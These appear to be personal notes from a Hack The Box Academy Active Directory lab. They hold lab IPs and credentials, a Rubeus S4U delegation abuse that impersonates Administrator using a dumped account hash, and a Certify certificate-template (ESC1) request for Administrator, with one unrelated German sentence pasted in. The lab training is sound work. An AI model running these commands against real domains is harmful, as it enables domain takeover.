 - IPs
  - DC1: 172.16.18.3
  - DC2: 172.16.18.4
  - Server01: 172.16.18.10
  - PKI: 172.16.18.15
  - WS001: DHCP or 172.16.18.25 (depending on the section)
  - Kali Linux: DHCP or 172.16.18.20 (depending on the section)


- WS001
xfreerdp /v:$TARGET /u:eagle\\bob /p:Slavi123 +clipboard /dynamic-resolution /drive:linux,/home/kaliwork/workspace/hacklab/academy/Attackwindows 

xfreerdp /v:172.16.18.3 /u:htb-student /p:'HTB_@cademy_stdnt!'+clipboard /dynamic-resolution /drive:linux,/home/kaliwork/workspace/hacklab/academy/Attackwindows 

htb-student:HTB_@cademy_stdnt!

- Kali
ssh kali@$TARGET
xfreerdp /v:$TARGET /u:kali /p:kali +clipboard /dynamic-resolution /drive:linux,/home/kalilearn/workspace/hacklab/academy/Attackwindows 

- Moving files alternative
smbclient \\\\$TARGET \\Share -U eagle/administrator%Slavi123
put
get

webservice
http/DC1
FCDC65703DD2B0BD789977F1F3EEAECF

[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF
[*]       aes128_cts_hmac_sha1 : 89E50DBF46388A7DBDB3EAAE80C6030F
[*]       aes256_cts_hmac_sha1 : D7480FABB291BDAC59D66B97812C3382A02AB9895D1C1B95A1AF520BAE08488B
[*]       des_cbc_md5          : 3D62D0CBEFB6D39B

.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /mdsspn:"http/dc1" /dc:dc1.eagle.local

```
Ich habe einen Termin für den 4.12.2024, aber da ich schon alle Unterlagen habe, versuche ich einen früheren zu bekommen. Falls ich einen früheren Termin bekommen, werde ich den für Dezember stornieren.
```

CA Name                               : PKI.eagle.local\eagle-PKI-CA
    Template Name                         : UserCert
    Schema Version                        : 4
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificates-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication
 request 

certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA CA /template:UserCert /altname:Administrator


 openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

  /drive:linux,/home/kaliwork/workspace/hacklab/academy/Attackwindows
HTB_@cademy_stdnt!